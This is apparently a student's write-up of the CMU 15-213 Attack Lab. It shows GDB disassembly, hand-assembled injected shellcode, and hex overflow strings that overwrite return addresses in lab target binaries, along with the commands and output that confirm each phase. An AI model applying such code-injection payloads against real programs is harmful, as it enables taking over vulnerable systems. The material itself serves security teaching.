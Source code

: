 ```yaml
---
title: Attack Lab
author: Arjun
date: 2024-08-01
tags: assembly, low-level
---
```


## Overview
A lab assignment from CMU's [15-213 course](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f22/www/schedule.html).

You can find the assignment [here](https://csapp.cs.cmu.edu/3e/labs.html)
Refer to [writeup](https://csapp.cs.cmu.edu/3e/attacklab.pdf)

Note: This is the 64-bit successor to the 32-bit Buffer Lab. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have buffer overflow bugs. One target is vulnerable to code injection attacks. The other is vulnerable to return-oriented programming attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.
### Phase 1
Running `disas getbuf` inside GDB outputs the following
```c
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```
We can see that `0x28` (40) bytes has been allocated for `getbuf`.  
(struggled here because I assumed 0x28 was 28 bytes.)
We have to pad 40 bytes followed by the return address
`disas touch1`
```c
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

The return address should be `0x00000000004017c0`.
We add the following to `input.txt`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

Then we run `./hex2raw < input.txt > output.txt`
Followed by, `./ctarget -q < output.txt`

```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```
### Phase 2
Writeup mentions that an argument (`%rdi`) is passed to `touch2`.  
We have to pass cookie as an argument to `touch2` i.e., store value in `cookie.txt` in `%rdi`

So what we are planning to do here is to 
1. obviously overflow the buffer
2. store our cookie in `%rdi`
3. call `touch2`
step 1 is straightforward, so is 3 (we can just overwrite the return address). but what about step 2?

**How do we execute this code?**
1. Basically we have to put our exploit code in the buffer (will explain this)
2. Pad the rest 
3. Overwrite the return address to the start of the buffer (this way our exploit code gets executed)

![buffer-overflow-code-injection](attack-lab-buffer-overflow.JPG)

sample input.txt
```
exploit code // stored cookie in %rdi
padding
address to start of buffer (%rsp) // exploit code gets executed
address to touch 2 // executes touch2 with cookie as argument
```

**generating exploit code**
Write the following into `p2.s`
```c
mov $0x59b997fa, %rdi //value of cookie read from cookie.txt is stored in rdi
retq
```

execute the following
```
gcc -c p2.s
objdump -d p2.o > p2.d
```

We get the following disassemble code
```c
0000000000000000 <.text>:
   0: 48 c7 c7 fa 97 b9 59      mov    $0x59b997fa,%rdi
   7: c3                        retq
```
We now have the byte representation of our exploit code. `48 c7 c7 fa 97 b9 59 c3`
Make sur `c3` is included. I thought the byte representation had to be in little-endian but that's not necessary. Pad the remaining 32 bytes with 0s.

To get address of start of buffer, run the program in gdb. get the address of `%rsp` before it exits `getbuf`. Add the address to `input.txt` in little-endian.
To get address of touch2, run `disas touch2` in gdb, the address of the first instruction is what we want. Add the address to `input.txt` in little-endian.

```
 48 c7 c7 fa 97 b9 59 c3
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00
 78 dc 61 55 00 00 00 00
 ec 17 40 00 00 00 00 00
```
### Phase 3

```c
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```
`unsigned val` is `unsigned int` parameter
`s` is set to point at a random position within the first 100 bytes of `cbuf`.
`sprintf` writes the hex representation of `val` at position pointed by `s`
`strncmp` compares 9 bytes of `sval` and `val`. Returns 0 if strings are equal. `hexmatch` returns 1 if strings are equal.

```c
void touch3(char *sval) {
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```
We have to pass `cookie` in `%rdi` by writing it into the exploit string. Write only the eight hex digits. No `0x`. Terminate with `00`.

```
cookie + 00
exploit code // mov (%rsp), %rdi ; %rdi = cookie
padding
addr to exploit code // %rsp + 8
addr to touch 3
```


### Things to Remember
- stack structure
	- arguments are pushed to caller's stack frame in reverse order
	- return address is pushed to stack, also executes `call` instruction
	- `ebp` of P is pushed to stack by Q
	- `esp` is stored in `ebp`. current stack pointer is set as Q's base pointer.
	- `ebp` of callee is used as reference point to access arguments
	- `esp` is decremented to allocated space
- exploits
	- consider buffer of size N is allocated.
	- put exploit code in buffer. (assume exploit code fits in buffer)
	- pad remaining with garbage
	- overflow buffer by overwriting `return address` with start of exploit code.
- misc
	- `ret` pops return address from stack and jumps to address
	- `mov esp, ebp` > `pop ebp` > `ret`
		